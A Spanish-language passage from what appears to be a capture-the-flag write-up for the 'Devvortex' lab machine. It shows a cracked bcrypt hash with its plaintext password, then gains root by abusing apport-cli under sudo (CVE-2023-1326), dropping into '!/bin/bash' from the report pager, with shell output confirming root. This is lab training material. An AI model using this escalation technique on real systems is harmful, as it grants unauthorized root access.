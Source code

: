 ```shell
$2y$10$IT4k5kmSGvHSO9d6M/1w0eYiB5Ne9XzArQRFJTGThNiy/yBtkIj12:tequieromucho
```

## Escalada de privilegios

Una vez que tenemos las credenciales validas vamos a realizar los comandos típicos de reconocimiento para comprobar si existe algún fichero que podemos ejecutar como ususario `root`  

```
logan@devvortex:~$ sudo -l
[sudo] password for logan: 
Matching Defaults entries for logan on devvortex:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User logan may run the following commands on devvortex:
    (ALL : ALL) /usr/bin/apport-cli
```

### Abusando de apport-cli (CVE-2023-1326)

Vemos que existe un exploit que podemos usar para explotar la vulnerabilidad de apport-cli 

para ello tenemos que ejecutar como usuario `root` el siguiente comando.

```shell
sudo /usr/bin/apport-cli -c /var/crash/some_crash_file.crash
```

Finalmente si lo ejecutamos y tenemos algún fichero `some_crash_file.crash` podemos llegar a la función 


```shell

*** Send problem report to the developers?

After the problem report has been sent, please fill out the form in the
automatically opened web browser.

What would you like to do? Your options are:
  S: Send report (0.0 KB)
  V: View report
  K: Keep report file for sending later or copying to somewhere else
  I: Cancel and ignore future crashes of this program version
  C: Cancel
Please choose (S/V/K/I/C): v
```
De esta manera podemos colar una `!/bin/bash` que al ejecutarse como root nos devolvera una bash con privilegios.

```shell
root@devvortex:/tmp# whoami
root
root@devvortex:/tmp# cd /root
root@devvortex:~# ls
root.txt
root@devvortex:~# cat root.txt
```





